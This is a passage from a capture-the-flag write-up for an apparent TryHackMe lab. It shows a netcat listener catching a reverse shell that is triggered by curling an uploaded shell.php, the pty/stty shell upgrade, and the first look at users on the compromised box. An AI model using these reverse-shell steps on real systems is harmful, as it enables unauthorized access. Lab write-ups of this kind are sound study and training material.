 Start a netcat listener to catch the shell:

```text
┌──(root💀kali)-[~/thm/diffctf]
└─# nc -nlvp 4444  
listening on [any] 4444 ...
```

Now call it using curl:

```text
┌──(root💀kali)-[~/thm/diffctf]
└─# curl http://subdomain.adana.thm/shell.php    
```

Switch back to netcat to see we are connected:

```text
┌──(root💀kali)-[~/thm/diffctf]
└─# nc -nlvp 4444  
listening on [any] 4444 ...
connect to [10.8.165.116] from (UNKNOWN) [10.10.235.235] 33138
Linux ubuntu 4.15.0-130-generic #134-Ubuntu SMP Tue Jan 5 20:46:26 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 20:57:38 up 55 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

Upgrade to a proper shell:

```text
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/$ ^Z  
zsh: suspended  nc -nlvp 4444
┌──(root💀kali)-[~/thm/diffctf]
└─# stty raw -echo; fg
[1]  + continued  nc -nlvp 4444
www-data@ubuntu:/$
```

That's better. Now let's see what users are on this box:

```text
$ ls -l /home
total 4
drwxr-x--- 15 hakanbey hakanbey 4096 Mar 15 12:45 hakanbey
```

Just one, but after a little looking around I got stuck on the next move. Then I looked back at the room banner:

![diffctf-banner](/assets/images/2021-04-22-22-04-06.png)
